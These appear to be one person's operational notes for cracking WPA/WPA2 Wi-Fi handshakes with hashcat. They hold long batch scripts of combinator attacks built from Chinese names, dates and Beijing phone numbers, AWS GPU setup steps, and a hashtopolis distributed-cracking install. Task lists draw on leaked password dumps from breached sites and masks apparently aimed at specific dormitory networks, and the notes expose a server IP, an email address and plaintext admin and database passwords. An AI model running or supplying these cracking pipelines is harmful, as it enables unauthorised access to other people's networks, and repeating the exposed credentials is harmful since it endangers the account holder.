        hashcat64.exe --session years_months_days_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\years_months_days.txt C:\Users\cdutboy\Dropbox\others\family_names.txt
        del years_months_days_family_names.restore
        hashcat64.exe --session family_names_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\family_names.txt C:\Users\cdutboy\Dropbox\others\months_days.txt
        del family_names_months_days.restore
        hashcat64.exe --session months_days_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\months_days.txt C:\Users\cdutboy\Dropbox\others\family_names.txt
        del months_days_family_names.restore
        hashcat64.exe --session years_months_days_years_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\years_months_days.txt C:\Users\cdutboy\Dropbox\others\years_months_days.txt
        del years_months_days_years_months_days.restore
        hashcat64.exe --session months_days_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\months_days.txt C:\Users\cdutboy\Dropbox\others\months_days.txt
        del months_days_months_days.restore
        hashcat64.exe --session years_months_days_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\years_months_days.txt C:\Users\cdutboy\Dropbox\others\months_days.txt
        del years_months_days_months_days.restore
        hashcat64.exe --session shengmu_beijing_phonenumbers -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu.txt C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt
        del shengmu_beijing_phonenumbers.restore
        hashcat64.exe --session beijing_phonenumbers_shengmu -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt C:\Users\cdutboy\Dropbox\others\shengmu.txt
        del beijing_phonenumbers_shengmu.restore
        hashcat64.exe --session names_beijing_phonenumbers -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_cn.txt C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt
        del names_beijing_phonenumbers.restore
        hashcat64.exe --session beijing_phonenumbers_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt C:\Users\cdutboy\Dropbox\others\names_cn.txt
        del beijing_phonenumbers_names.restore
        hashcat64.exe --session family_names_beijing_phonenumbers -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\family_names.txt C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt
        del family_names_beijing_phonenumbers.restore
        hashcat64.exe --session beijing_phonenumbers_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt C:\Users\cdutboy\Dropbox\others\family_names.txt
        del beijing_phonenumbers_family_names.restore
        hashcat64.exe --session names_names_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_cn.txt C:\Users\cdutboy\Dropbox\others\names_months_days.txt
        del names_names_months_days.restore
        hashcat64.exe --session names_months_days_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_months_days.txt C:\Users\cdutboy\Dropbox\others\names_cn.txt
        del names_months_days_names.restore
        hashcat64.exe --session shengmu_love_shengmu -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu_love.txt C:\Users\cdutboy\Dropbox\others\shengmu.txt
        del shengmu_love_shengmu.restore
        hashcat64.exe --session names_love_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_love.txt C:\Users\cdutboy\Dropbox\others\names_cn.txt
        del names_love_names.restore
        hashcat64.exe --session familynames_love_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\familynames_love.txt C:\Users\cdutboy\Dropbox\others\family_names.txt
        del familynames_love_family_names.restore
        hashcat64.exe --session shengmu_ai_shengmu -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu_ai.txt C:\Users\cdutboy\Dropbox\others\shengmu.txt
        del shengmu_ai_shengmu.restore
        hashcat64.exe --session names_ai_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_ai.txt C:\Users\cdutboy\Dropbox\others\names_cn.txt
        del names_ai_names.restore
        hashcat64.exe --session familynames_ai_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\familynames_ai.txt C:\Users\cdutboy\Dropbox\others\family_names.txt
        del familynames_ai_family_names.restore
        hashcat64.exe --session family_names_family_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\family_names.txt C:\Users\cdutboy\Dropbox\others\family_months_days.txt
        del family_names_family_months_days.restore
        hashcat64.exe --session familynames_months_days_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\familynames_months_days.txt C:\Users\cdutboy\Dropbox\others\family_names.txt
        del familynames_months_days_family_names.restore

* a1commands_multiple.bat:

        hashcat64.exe --session names_1234d -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_cn.txt C:\Users\cdutboy\Dropbox\others\1234d.txt && del names_1234d.restore && hashcat64.exe --session family_names_1234d -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\family_names.txt C:\Users\cdutboy\Dropbox\others\1234d.txt && del family_names_1234d.restore && hashcat64.exe --session shengmu_years_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu.txt C:\Users\cdutboy\Dropbox\others\years_months_days.txt && del shengmu_years_months_days.restore && hashcat64.exe --session shengmu_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu.txt C:\Users\cdutboy\Dropbox\others\months_days.txt && del shengmu_months_days.restore && hashcat64.exe --session months_days_shengmu -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\months_days.txt C:\Users\cdutboy\Dropbox\others\shengmu.txt && del months_days_shengmu.restore && hashcat64.exe --session shengmu_shengmu -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu.txt C:\Users\cdutboy\Dropbox\others\shengmu.txt && del shengmu_shengmu.restore && hashcat64.exe --session shengmu_months_days_shengmu_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu_months_days.txt C:\Users\cdutboy\Dropbox\others\shengmu_months_days.txt && del shengmu_months_days_shengmu_months_days.restore && hashcat64.exe --session shengmu_shengmu_1234d -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu.txt C:\Users\cdutboy\Dropbox\others\shengmu_1234d.txt && del shengmu_shengmu_1234d.restore && hashcat64.exe --session names_years_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_cn.txt C:\Users\cdutboy\Dropbox\others\years_months_days.txt && del names_years_months_days.restore && hashcat64.exe --session names_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_cn.txt C:\Users\cdutboy\Dropbox\others\months_days.txt && del names_months_days.restore && hashcat64.exe --session family_names_years_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\family_names.txt C:\Users\cdutboy\Dropbox\others\years_months_days.txt && del family_names_years_months_days.restore && hashcat64.exe --session years_months_days_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\years_months_days.txt C:\Users\cdutboy\Dropbox\others\family_names.txt && del years_months_days_family_names.restore && hashcat64.exe --session family_names_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\family_names.txt C:\Users\cdutboy\Dropbox\others\months_days.txt && del family_names_months_days.restore && hashcat64.exe --session months_days_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\months_days.txt C:\Users\cdutboy\Dropbox\others\family_names.txt && del months_days_family_names.restore && hashcat64.exe --session years_months_days_years_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\years_months_days.txt C:\Users\cdutboy\Dropbox\others\years_months_days.txt && del years_months_days_years_months_days.restore && hashcat64.exe --session months_days_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\months_days.txt C:\Users\cdutboy\Dropbox\others\months_days.txt && del months_days_months_days.restore && hashcat64.exe --session years_months_days_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\years_months_days.txt C:\Users\cdutboy\Dropbox\others\months_days.txt && del years_months_days_months_days.restore && hashcat64.exe --session shengmu_beijing_phonenumbers -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu.txt C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt && del shengmu_beijing_phonenumbers.restore && hashcat64.exe --session beijing_phonenumbers_shengmu -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt C:\Users\cdutboy\Dropbox\others\shengmu.txt && del beijing_phonenumbers_shengmu.restore && hashcat64.exe --session names_beijing_phonenumbers -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_cn.txt C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt && del names_beijing_phonenumbers.restore && hashcat64.exe --session beijing_phonenumbers_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt C:\Users\cdutboy\Dropbox\others\names_cn.txt && del beijing_phonenumbers_names.restore && hashcat64.exe --session family_names_beijing_phonenumbers -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\family_names.txt C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt && del family_names_beijing_phonenumbers.restore && hashcat64.exe --session beijing_phonenumbers_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\beijing_phonenumbers.txt C:\Users\cdutboy\Dropbox\others\family_names.txt && del beijing_phonenumbers_family_names.restore && hashcat64.exe --session names_names_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_cn.txt C:\Users\cdutboy\Dropbox\others\names_months_days.txt && del names_names_months_days.restore && hashcat64.exe --session names_months_days_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_months_days.txt C:\Users\cdutboy\Dropbox\others\names_cn.txt && del names_months_days_names.restore && hashcat64.exe --session shengmu_love_shengmu -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu_love.txt C:\Users\cdutboy\Dropbox\others\shengmu.txt && del shengmu_love_shengmu.restore && hashcat64.exe --session names_love_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_love.txt C:\Users\cdutboy\Dropbox\others\names_cn.txt && del names_love_names.restore && hashcat64.exe --session familynames_love_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\familynames_love.txt C:\Users\cdutboy\Dropbox\others\family_names.txt && del familynames_love_family_names.restore && hashcat64.exe --session shengmu_ai_shengmu -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\shengmu_ai.txt C:\Users\cdutboy\Dropbox\others\shengmu.txt && del shengmu_ai_shengmu.restore && hashcat64.exe --session names_ai_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\names_ai.txt C:\Users\cdutboy\Dropbox\others\names_cn.txt && del names_ai_names.restore && hashcat64.exe --session familynames_ai_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\familynames_ai.txt C:\Users\cdutboy\Dropbox\others\family_names.txt && del familynames_ai_family_names.restore && hashcat64.exe --session family_names_family_months_days -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\family_names.txt C:\Users\cdutboy\Dropbox\others\family_months_days.txt && del family_names_family_months_days.restore && hashcat64.exe --session familynames_months_days_family_names -D 1,2 -w 4 -m 2500 #HL# -a 1 C:\Users\cdutboy\Dropbox\others\familynames_months_days.txt C:\Users\cdutboy\Dropbox\others\family_names.txt && del familynames_months_days_family_names.restore
* check the log file: The modified time of the log file is exactly the time of the session finished.
## How to get prepare for hashcat
While creating this tutorial I realized by “default” I have an instance limit of “0” for this type of instance (p2.8xlarge) but was able to get the limit boosted to “1” by contacting their support through the support tab on the AWS console.
(See Sneak Peak for Next HOWTo:) where I snipped a sample from my conversation with their support team. You may also need to do this if you intend to follow along. It took a few days before they granted the request. When submitting the request I just said I was doing research as an IT professional. When you have been approved, these are the next steps….
### setting up freetier for hashcat
#### On your first login, update everything and install the required packages:
`sudo apt update && sudo apt install -y build-essential linux-headers-$(uname -r) p7zip-full linux-image-extra-virtual`
Before we install the new nVidia driver we need to blacklist (or disable) the default Nouveau open source driver. This is so we don’t have conflicting drivers.
Then, `sudo vim /etc/modprobe.d/blacklist-nouveau.conf` and input the following:

        blacklist nouveau
        blacklist lbm-nouveau
        options nouveau modeset=0
        alias nouveau off
        alias lbm-nouveau off
After,the final steps to taking the Nouveau driver out of order.:

        echo options nouveau modeset=0 | sudo tee -a /etc/modprobe.d/nouveau-kms.conf
        sudo update-initramfs -u
        sudo reboot
#### Once the instance reboots (it should take 2-3 minutes), download the "OpenCL 2.0 GPU Driver Package for Linux" (2.0 or later) and hashcat:

        wget https://hashcat.net/files/hashcat-4.0.0.7z
        7za x hashcat-4.0.0.7z
Note: run `./hashcat64.bin` or first run `cp hashcat64.bin /usr/bin/` and then run `hashcat64.bin`
`./hashcat64.bin --force -I`

        hashcat (v5.0.0) starting...
        
        OpenCL Info:
        
        Platform ID #1
          Vendor  : The pocl project
          Name    : Portable Computing Language
          Version : OpenCL 1.2 pocl 1.1 None+Asserts, LLVM 6.0.0, SPIR, SLEEF, DISTRO, POCL_DEBUG
        
          Device ID #1
            Type           : CPU
            Vendor ID      : 128
            Vendor         : GenuineIntel
            Name           : pthread-Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz
            Version        : OpenCL 1.2 pocl HSTR: pthread-x86_64-pc-linux-gnu-haswell
            Processor(s)   : 1
            Clock          : 2394
            Memory         : 256/737 MB allocatable
            OpenCL Version : OpenCL C 1.2 pocl
            Driver Version : 1.1
### [Setting up p3.16xlarge for hashcat](https://medium.com/@iraklis/running-hashcat-v4-0-0-in-amazons-aws-new-p3-16xlarge-instance-e8fab4541e9b)
First of, you may need to request a limit increase so that you are allowed to launch the new p3.16xlarge instances. AWS was pretty responsive, it only took them 20 minutes or so.
Before we proceed a friendly heads up: I will not be replying to any angry emails coming from people who lost their job/spouse/sanity. Be careful with your internet clicks. If you forget to spin-down your p3.16xlarge instance for a month, you will be reminded with an AWS invoice of over $18k.
p3.16xlarge is available hey in US East (N. Virginia), US West (Oregon), EU West (Ireland) and Asia Pacific (Tokyo) regions.
Launch a default Ubuntu p3.16xlarge instance with the "Ubuntu Server 16.04 LTS (HVM), SSD Volume Type-ami-cd0f5cb6" ami.
You can try getting a spot request one, these are usually 50%-80% cheaper, depending on availability and demand.
#### On your first login, update everything and install the required packages:
`sudo apt update && sudo apt install -y build-essential linux-headers-$(uname -r) p7zip-full linux-image-extra-virtual`
Before we install the new nVidia driver we need to blacklist (or disable) the default Nouveau open source driver. This is so we don’t have conflicting drivers.
Then, `sudo vim /etc/modprobe.d/blacklist-nouveau.conf` and input the following:

        blacklist nouveau
        blacklist lbm-nouveau
        options nouveau modeset=0
        alias nouveau off
        alias lbm-nouveau off
After,the final steps to taking the Nouveau driver out of order.:

        echo options nouveau modeset=0 | sudo tee -a /etc/modprobe.d/nouveau-kms.conf
        sudo update-initramfs -u
        sudo reboot
#### Once the instance reboots (it should take 2-3 minutes), download the latest NVIDIA Tesla drivers (these worked for me) and hashcat:

        wget http://us.download.nvidia.com/tesla/410.72/NVIDIA-Linux-x86_64-410.72.run
        sudo /bin/bash NVIDIA-Linux-x86_64-410.72.run
        wget https://hashcat.net/files/hashcat-5.0.0.7z
        7za x hashcat-5.0.0.7z
#### You should be good to go. To verify that the drivers are working you can run `sudo nvidia-smi`

        sudo nvidia-smi -pm 1
        sudo nvidia-smi -acp 0
        sudo nvidia-smi --auto-boost-permission=0
        sudo nvidia-smi -ac 2505,875
        sudo nvidia-smi -ac 877,1530
* `nvidia-smi`– SMI stands for System Management Interface, it is a set of options we can configure on our nVidia GPU’s, among other management and monitoring settings.
* `pm 1– Persistence mode = 1`, Enables Persistence mode which minimizes driver load latency by keeping it loaded even when not in use. Resets to “0” or “off” when machine is rebooted
* `acp 0– Applications-Clocks-Permission = 0`, Sets Applications Clocks Permission to “Unrestricted”
* `auto-boost-permission=0`– Allows non-admin control over boost mode by setting permission to “0” or “Unrestricted”
* `ac 877,1530`– Specifies maximum memory and graphics clocks. run `nvidia-smi -q -d SUPPORTED_CLOCKS > tmp.txt` to see list of supported clock combinations.
#### Full benchamrks

        cd ~/hashcat-4.0.0
        sudo ./hashcat64.bin -b (need to be run with sudo)
## Running hashcat on multiple AWS Instances or Auto Scaling Group???
Hashcat is open source, so anyone with the mind to can develop tools to work with. In fact, there are several tools developed for the extension of Hashcat into multiple instances, sharing the workload across as many devices as you can set up (or at least until the strain becomes too much). The original software, [Hashtopus is available here](https://github.com/curlyboi/hashtopus) but abandoned by the developer. Another better-forked version is available from [Sein Coray’s GitHub page here](https://github.com/s3inlc).
Time to crunch some more numbers.
If we can achieve a hash power of X with Hashcat running on a single 24 CPU DigitalOcean server, then let’s say we spread it across six rented servers of the same size, giving us a total hash power of 6*X. We’re still only looking at a price of about $1.43 / hour, which is incredibly cheap for that kind of has power.
Let’s say we’re a real scary threat actor, and we’re trying to push our efficiency to the limits. Assuming the best-distributed wrapper for Hashcat probably supports a maximum of 20 machines (just guessing, but it has to cap somewhere, and I’m thinking the returns are exponentially diminishing at some point).
We’re now looking at 20*X hash power, at the modest cost of $4.76 / hour. And keep in mind as a threat actor we’re probably only running our hash cracking for a few hours, maybe six or eight at the most, and calling it a day (that should be plenty of time to crack any passwords that aren’t exceedingly complex, especially with that kind of hash power).

### [hashtopolis](https://github.com/s3inlc/hashtopolis/wiki)
hashtopolis is a multi-platform client-server tool for distributing hashcat tasks to multiple computers.
#### Hashcat Brain is integrated in hashtopolis since version V.0.10.0
In Hashtopolis you can configure a global Hashcat brain server which can be used. This is done in the server config where you have to add the host, port and password fro the brain server which the clients then should use. For every hashlist you add to Hashtopolis afterwards, you can select if the brain should be used for this hashlist (keep in mind, it is only useful to use the brain on slow hash algorithms as otherwise it would introduce a bottleneck). If a hashlist is set to use the brain, every task issued with this hashlist will then automatically use the brain client flags on the client when running it. Note: PRINCE and piping tasks are excluded from the brain, as Hashcat is not supporting the brain features when using stdin for the candidates.
* Server Configuration > Cracking/tasks
    * Check "Allow hashcat brain to be used for hashlists"
    * Host to be used or hashcat brain: `34.201.59.34`
    * Port for hashcat brain: `3434`
    * Password to be used to access hashcat brain server: `Woaini123`
* Create a new hashlist and set it to use hashcat brain
    * Check "This hashlist should use hashcat brain"
    * In case hashcat brain is used, which features:???
        * Send attack positions
        * Send hashed passwords
        * Send hashed passwords and attack positions
#### Terminology

#### Server

##### Installation

###### [Server Prereqiosites](https://github.com/s3inlc/hashtopolis/wiki/Server-Prerequisites)
* Install and Configure
    * Install required software
    
            sudo apt update && sudo apt upgrade
            sudo apt install mysql-server
            sudo apt install apache2
            sudo apt install libapache2-mod-php php-mysql php php-gd php-pear php-curl
            sudo apt install git
            sudo apt install phpmyadmin
    
    * `sudo mysql_secure_installation`
        `n`
        `n`
        `y`
        `y`
        `y`
        ...
    * `sudo systemctl status apache2`
    * `sudo apt install php-mcrypt`???
        * cannot find the php-mcrypt package on ubuntu 18
            * sudo apt-get install libssl-dev php7.2-dev php-dev libmcrypt-dev gcc make autoconf libc-dev pkg-config -f
            * sudo pecl install mcrypt-1.0.1
            * echo "extension=mcrypt.so" | sudo tee -a /etc/php/7.2/apache2/conf.d/mcrypt.ini
            * sudo service apache2 restart
    * Create a mySQL User and a Database the user can read and write to by navigating to:
        `http://34.201.59.34/phpmyadmin`
         
    * Clone the source code and put it into the `www` dir:
    
            git clone https://github.com/s3inlc/hashtopolis.git
            cd hashtopolis/src
            sudo mkdir /var/www/hashtopolis
            sudo cp -v -r * /var/www/hashtopolis
            sudo chown -R www-data:www-data /var/www/hashtopolis
    * config the apache2
        * `sudo vim /etc/apache2/mods-available/dir.conf`
            `index.php`
        * `sudo vim /etc/apache2/sites-enabled/000-default.conf`
            `DocumentRoot /var/www/hashtopolis`
        * `sudo systemctl restart apache2`
    * 'the phpmyadmin is not found on the server'
        * `sudo vim /etc/apache2/apache2.conf`
        * add the following line to the end of the file:
            `Include /etc/phpmyadmin/apache.conf`
        * `sudo /etc/init.d/apache2 restart`
* Log to phpmyadmin
    * `http://34.201.59.34/phpmyadmin`
    * 'the `root` is not allowed for phpmyadmin
        * Connect to mysql
            `sudo mysql --user=root mysql`
        * Create a user for phpMyAdmin
    
            CREATE USER 'phpmyadmin1'@'localhost' IDENTIFIED BY 'some_pass';
            GRANT ALL PRIVILEGES ON *.* TO 'phpmyadmin1'@'localhost' WITH GRANT OPTION;
            FLUSH PRIVILEGES;
    
        * Optional and unsafe: allow remote connections
    
            CREATE USER 'phpmyadmin1'@'%' IDENTIFIED BY 'some_pass';
            GRANT ALL PRIVILEGES ON *.* TO 'phpmyadmin1'@'%' WITH GRANT OPTION;
            FLUSH PRIVILEGES;
    
        * Update phpMyAdmin
            * `sudo vim /etc/dbconfig-common/phpmyadmin.conf`
    

                # dbc_dbuser: database user
                #       the name of the user who we will use to connect to the database.
                dbc_dbuser='phpmyadmin1'
                
                # dbc_dbpass: database user password
                #       the password to use with the above username when connecting
                #       to a database, if one is required
                dbc_dbpass='some_pass'
* Add a user account from phpMyAdmin
    `hashtopolis`
    `local`
    `Woaini123`
    `slGY4JAGVxUfCKfG`
    `a6M7KHqRlRHlZDNw`
    check the 'create the database with the same name'
* Install hashtopolis
    * `http://34.201.59.34/install/`
    * Server hostname: `localhost`
    * Server port: 3306
    * MySQL user: hashtopolis
    * MySQL password: slGY4JAGVxUfCKfG (generated)
    * Database name: hashtopolis
* create Admin User for hashtopolis
    * Username: cdutboy928
    * Email Address: cdutboy928@gmail.com (for notification)
    * Password:Woaini123
* delete the `install` directory
    * `cd /var/www/hashtopolis`
    * `sudo rm -r -v install`

* Before upload through HTTP, you should change the php default configuration by running `sudo vim /etc/php/7.2/apache2/php.ini`, and set the following parameters:
 `upload_max_filesize=500M`
 `memory_limit=500M`
 `post_max_size=500M`
* sudo /etc/init.d/apache2 restart
###### [Migration Update](https://github.com/s3inlc/hashtopolis/wiki/Migration-Update)

###### [Hashcat Installation](https://github.com/s3inlc/hashtopolis/wiki/Installation)

###### [Upgrading hashtopolis](https://github.com/s3inlc/hashtopolis/wiki/Upgrading-Hashtopolis)

##### Configuration

###### [Getting Started](https://github.com/s3inlc/hashtopolis/wiki/Getting-Started)

###### [Server Manual](https://github.com/s3inlc/hashtopolis/wiki/Server-Manual)
* Get Started
  * Initial Configuration
  * Users
  * Pre-configured Tasks
* Features and Documentation
  * Server Configuration
  * Crackers
  * Files
      Use Dropbox APP on Windows to sync.
      Think of this as a file server. Every word list and rule set needs to be added to this list before you can use it in your tasks. You have three ways of adding files:
      * **URL Download**: The file will be downloaded from a specified URL.
      * **HTTP upload**: The file will be uploaded from your browser. Suitable for smaller files because the default server limits are not very generous.
      * **Import**: The file will be moved from the directory called 'import' you can create inside the web directory (`/var/www/hashtopolis/import`). Suitable for large files, you can copy them via FTP/SSH or locally and then simply import. Because these files will be delivered to every agent who needs them for their current task, you can compress them 7zip to save bandwidth.
          `Import` works again!
          To make `Import` work properly: `cd /var/www/hashtopolis/import`,`sudo chmod a+x *`, `sudo chmod a+r`.
          However, you need to keep some basic rules: the file cannot be in any subdirectory inside the archive and the algorithm needs to be LZMA (to be specific, it must be extractable by 7z). Every time an agent will download a file ending with `.7z`, it will first extract it prior to starting the task. You can mark any file as "Secret" using the check box in the column with a lock icon. This will allow only trusted agents to download the file. Agents not marked as trusted won't even get such task to begin with.
          If get errors when importing files, run `sudo ncdu /var/log`, and then run `sudo dd if=/dev/null of=/var/log/apache2/error.log`
          Before upload through HTTP, you should change the php default configuration by running `sudo vim /etc/php/7.2/apache2/php.ini`, and set the following parameters:
          `upload_max_filesize=500M`
          `memory_limit=500M`
          `post_max_size=500M`
          If you have already uploaded something into Global files, you see another table on the right with every file in the system. If you want to use any of those files for this task, check the box next to the item you wish to use. 7-Zip archives when added will show the file extention as ".???" Hashtopolis does not know the name of the file inside of the archive so you must use the file name inside the archive in the task command line. Example: Wordlist.7z contains the file Wordlist.txt the command line will need to be manualy changed from Wordlist.??? to Wordlist.txt
        For a better management the rules and wordlist files are separated. This makes it easier to keep the overview over the available wordlist and rules which are on the server. On the client it doesn't matter if a file is from the rule or wordlist section.
    * To upload large files
        * open an AWS Windows EC2
        * open the dropbox.com and download the file needed to be uploaded
        * login the hashtopolis site and upload the file. It's fast!!!
    * Or
        * download from dropbox or upload to the ftp server directory `~/ftpfiles/`
        * run `sudo chmod a+r <file>` to add the read permission
        * copy the URL (`ftp://34.201.59.34/names_months_days1.7z`) to the hashtopolis file URL
        * Click the "Download file" button. It is fast too!
    * Delete the corresponding file in `/var/www/hashtopoli/files` when prompted with "File already exists." when failing to upload a file.
    * file lists
        * Rules
            * best64.rule
        * Wordlists
            * 001homelv1990.7z 	17.97 MB
            * 100w.txt 	10.23 MB
            * 21sitesleaked1.7z 	16.51 MB
            * 21sitesleaked2.7z 	16.37 MB
            * 21sitesleaked3.7z 	36.29 MB
            * 21sitesleaked4.7z 	72.10 MB
            * 21sitesleaked5.7z 	89.92 MB
            * 21sitesleaked6.7z 	97.07 MB
            * 21sitesleaked7.7z 	51.50 MB
            * 700w.7z 	23.15 MB
            * 7d1rct_2200W.7z 	53.23 MB
            * 838mimaok.txt 	1.67 MB
            * dicmerge_1.7z 	126.29 MB
            * dicmerge_2_leaked.7z	473.57 MB
            * leaked1.7z 	45.07 MB
            * leaked17173.7z 	9.04 MB
            * leaked2.7z 	47.18 MB
            * leaked3.7z 	82.90 MB
            * leaked4.7z 	115.48 MB
            * leaked5.7z 	123.98 MB
            * leaked6.7z 	138.65 MB
            * leaked7.7z 	65.95 MB
            * leakedpasswords.7z	228.87 MB
            * mergeddic.7z 	9.60 MB
            * namesprefix.7z 	10.67 MB
            * owndic.txt 	18.00 B
            * sitesweak.7z 	23.30 MB
            * wordlist.txt 	258.10 kB
            * wpa.7z 	9.04 MB
        * others
            * 1234d.txt 	63.90 kB
            * beijing_phonenumbers.7z 	10.48 MB
            * family_months_days.txt 	7.41 MB
            * family_names.txt 	6.57 kB
            * familynames_ai.txt 	22.86 kB
            * familynames_love.txt 	29.17 kB
            * familynames_months_days.txt 	7.41 MB
            * keywords_domitory.txt 	10.00 B
            * keywords_domitory_e101.txt 	5.00 B
            * keywords_domitory_JDBG.txt 	5.00 B
            * mobile_number_mask.hcmask 	922.00 B
            * months_days.txt 	4.39 kB
            * names_ai.7z 	11.38 MB
            * names_cn.txt 	36.76 MB
            * names_love.7z 	12.82 MB
            * names_months_days.7z 	1.16 GB
            * shengmu.txt 	494.35 kB
            * shengmu_1234d.7z 	135.58 MB
            * shengmu_ai.txt 	2.02 MB
            * shengmu_love.txt 	2.58 MB
            * shengmu_months_days.7z 	20.66 MB
            * years_months_days.txt 	964.22 kB
  * Pre-conf Tasks
      * domitory_only
          * e101dddd
          * e101e?d?d?d
          * e101?l?l?l?l
          * JDBGdddd
          * JDBGllll
      * digits_dics
          * 8digits
          * 6digits
          * 001homelv1990
          * mergeddic
          * 700w
          * 7d1rct_2200w
          * namesprefix
          * dicmerge_2_leaked
          * wpa
          * leakedpasswords
          * dicmerge_1
          * leaked1
          * leaked2
          * leaked3
          * leaked4
          * leaked5
          * leaked6
          * leaked7
          * 21sitesleaked1
          * 21sitesleaked2
          * 21sitesleaked3
          * 21sitesleaked4
          * 21sitesleaked5
          * 21sitesleaked6
          * 21sitesleaked7
          * sitesweak
      * combinations
          * names_1234d
          * familynames_1234d
          * shengmu_years_months_days
          * shengmu_months_days
          * months_days_shengmu
          * shengmu_shengmu
          * shengmu_months_days_shengmu_months_days
          * shengmu_shengmu_1234d
          * names_years_months_days
          * names_months_days
          * familynames_years_months_days
          * years_months_days_familynams
          * familynames_months_days
          * months_days_familynames
          * years_months_days_years_months_days
          * months_days_months_days
          * years_months_days_months_days
          * shengmu_phonenumbers
          * phonenumbers_shengmu
          * names_phonenumbers
          * phonenumbers_names
          * familynames_phonenumbers
          * phonenumbers_familynames
          * names_names_months_days
          * names_months_days_names
          * shengmu_love_shengmu
          * names_love_names
          * familynames_love_familynames
          * shengmu_ai_shengmu
          * names_ai_names
          * familyname_ai_familynames
          * family_family_months_days
          * family_months_days_family
      * ?as
